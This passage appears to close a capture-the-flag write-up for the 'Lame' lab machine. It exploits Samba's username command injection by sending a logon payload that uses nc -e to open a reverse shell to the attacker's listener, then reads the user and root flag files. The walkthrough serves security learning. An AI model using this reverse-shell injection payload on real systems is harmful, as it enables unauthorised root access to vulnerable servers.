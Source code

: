 So basically on Linux, \` \` are used to execute and put the output in place, just like $(). It seems Samba is allowing that to happen inside the username. Metasploit is calling nohup (which starts the process outside the current context) and then a payload. Let's login anonymously and then change the user using following command payload

- `logon "./='nohop nc -e /bin/bash <ip_addr> <port>`

 I fired up my netcat listener on 1234 port and tried this payload.
 ![smb exploit](../.medias/lame/smb_exploit.png)

 I got shell with root access on my netcat listener. We can go to the users home directory and grab the user flag by using the following command: `cat /home/markis/user.txt`
 ![user flag](../.medias/lame/user_flag.png)

 Similarly, we can grab the root flag using the following command: `cat /root/root.txt`
![root flag](../.medias/lame/root_flag.png)

Ans Voilà, we pwned lame.
Hope you guys enjoyed reading this and learned something new.

Keep Hacking..

Until we meet again...

![lame pwned](../.medias/lame/lame_pwned.png)